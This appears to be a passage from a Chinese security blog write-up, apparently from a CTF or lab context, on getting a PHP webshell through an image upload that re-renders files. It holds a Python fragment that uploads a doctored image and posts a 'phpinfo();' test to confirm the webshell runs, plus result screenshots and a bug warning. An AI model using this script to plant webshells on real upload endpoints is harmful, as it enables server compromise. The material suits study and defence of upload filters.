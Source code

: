 ```python
        print('上传成功' + f"-----文件名 {msg}")
        
        # 测试图片接口
        img_url = get_url + str(msg)
        test_resp = requests.get(img_url)
        if test_resp.status_code == 200:
            print("图片测试成功")
            data = {"1":"phpinfo();"}
            eval_resp = requests.post(img_url,data=data)
            if "phpinfo" in eval_resp.text:
                print("木马已存活...")
                # 在成功检测到木马文件后保存修改后的文件
                with open(output_path, 'wb') as output_file:
                    output_file.write(modified_image_data)
                print(f'修改后的文件已保存到: {output_path}')
                break
            else:
                print("正在生成木马")
        else:
            print("图片上传失败，请检查图片")
    else:
        print(f'上传失败，状态码: {response.status_code}')
        print(f'响应内容: {response.text}')

```
![res](https://the0n3.top/medias/show-upload/res1.png)

放3组图，分别是原图，一次渲染图，以及成果图

![原图](https://the0n3.top/medias/show-upload/cola.jpg) 

![一次渲染图](https://the0n3.top/medias/show-upload/payload_cola.jpg)

![成果图](https://the0n3.top/medias/show-upload/success_image.jpg)

再试一次...
![res](https://the0n3.top/medias/show-upload/res2.png)

跑一下柴郡

原图

![ori](https://the0n3.top/medias/show-upload/cj.jpg)

一次渲染

![one](https://the0n3.top/medias/show-upload/payload_cola1.jpg)

成果图

![two](https://the0n3.top/medias/show-upload/success_image1.jpg)

![res](https://the0n3.top/medias/show-upload/cjres.png)

:::warning
注意：存在已知bug，图片接受脚本处理后可能损坏，因此会无效死循环
:::

参考、致谢：

- [二次渲染](https://j7ur8.github.io/WebBook/PHP/%E4%BA%8C%E6%AC%A1%E6%B8%B2%E6%9F%93%E7%BB%95%E8%BF%87.html)